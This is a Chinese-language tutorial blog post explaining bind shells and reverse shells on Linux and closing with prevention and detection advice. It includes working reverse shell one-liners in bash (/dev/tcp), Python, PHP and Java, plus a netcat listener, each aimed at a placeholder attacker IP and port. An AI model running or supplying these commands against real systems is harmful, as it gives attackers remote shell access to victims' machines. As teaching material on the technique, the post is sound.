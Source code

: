 ```yaml
---
layout: post
title: Reverse Shell
categories: Linux
description:
keywords:
---
```


反弹 Shell（Reverse Shell）是相对于 Bind Shell 而言的，在控制端不方便主动连接被控端时（例如被控端被防火墙保护），让被控端主动连接到控制端接受控制。

Bind Shell 是指被控端机器运行 Shell 代码，监听固定端口，等待外部控制端发起连接，从而实现远程控制。
Bind Shell 过程：

1. 被控端创建 TCP Socket，并绑定到本地端口；
2. 被控端监听 TCP 连接，接受控制端发起的 TCP 连接；
3. 被控端将 STDIN，STDOUT，STDERR 重定向到控制端的 Socket；
4. 控制端发出 Shell 命令，由被控端执行并回显结果到控制端。

借助系统调用，使用汇编程序编写的 Bind Shell 程序可以压缩到仅 112 字节。
一旦侵入成功程序被执行，尤其是以高级别账号权限执行，控制端即可发起 TCP 连接，在被控端机器执行任意 Shell 命令。
但是 Bind Shell 也有不足：

1. 程序什么时候被执行无法预期，控制端只能通过轮询确认；
2. 被控端可能在局域网环境下，控制端无法连接；
3. 被控端机器 IP 可能动态变化，控制端无法持续控制；
4. 被控端可能被防火墙保护，只能发起请求，不能接受请求；或者限定了端口，但此端口已被占用。

针对以上不足，Reverse Shell 被提出，和 Bind Shell 的技术原理类似，只是过程不同：

1. 控制端创建 TCP Socket，并绑定到本地端口；
2. 控制端监听 TCP 连接，接受被控端发起的 TCP 连接；
3. 控制端将 STDIN，STDOUT，STDERR 重定向到被控端的 Socket；
4. 控制端发出 Shell 命令，由被控端执行并回显结果到控制端。

如图所示：

![](https://blog.finxter.com/wp-content/uploads/2020/07/reverseshell-768x432.jpg)

控制端执行命令：`nc -lvp 80` 可以直接监听指定的 TCP 端口。

被控端执行命令：`bash -i >& /dev/tcp/{控制端ip}/{控制端port} 0>&1`。
作用是生成交互式（interactive）的 Shell 环境，将标准输出重定向到控制端，将标准输入0重定向到标准输出1。
效果是被控端所有输入输出都显示在控制端，无论控制端的命令成功失败，被控端都没有任何信息打印。
如果控制端没有在监听，则被控端会输出连接被拒绝的错误提示信息，进程退出。
如果控制端停止监听，则被控端的程序立刻退出（因为连接已被断开）。
注意在 Linux 系统中，任意的设备都是文件，因此这里 `/dev/tcp/{控制端ip}/{控制端port}` 是连接到控制端的 Socket 的特殊方式。

编程语言也可作为被控端程序，例如

- python: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((ip,port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- php: `php -r '$sock=fsockopen($IP,$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'`
- java: `r=Runtime.getRuntime();p=r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor()`

一旦机器被控制，除了断绝访问外网能力，Reverse Shell 一般没有太好的防范方法。但仍然有以下手段加以预防和检测：

1. 确保服务器操作系统和应用程序保持在较新的状态，尤其是已知的安全补丁要保证到位，以减少能被利用的漏洞数量；
2. 应用程序尽量以较低权限运行，使得被代码注入后破坏面不至于过大；
3. 尽可能减少生产机器上的 Bash history 历史命令条数，避免在 Shell 命令中使用明文密码；
4. 确保服务器在防火墙以及其他网络防护软件之后，使得代码注入能被及时发现或阻止；
5. 服务器上运行必要的安全防护软件，最好能检测出异常的常驻 Shell 进程；
6. 定期进行安全攻防演练，发现系统潜在安全漏洞。

引用：

- https://cloud.tencent.com/developer/news/36975
- https://zhuanlan.zhihu.com/p/138393396
- https://resources.infosecinstitute.com/topic/icmp-reverse-shell/
- https://www.netsparker.com/blog/web-security/understanding-reverse-shells

License: [(CC 4.0) BY-NC-SA](http://creativecommons.org/licenses/by-nc-sa/4.0/)
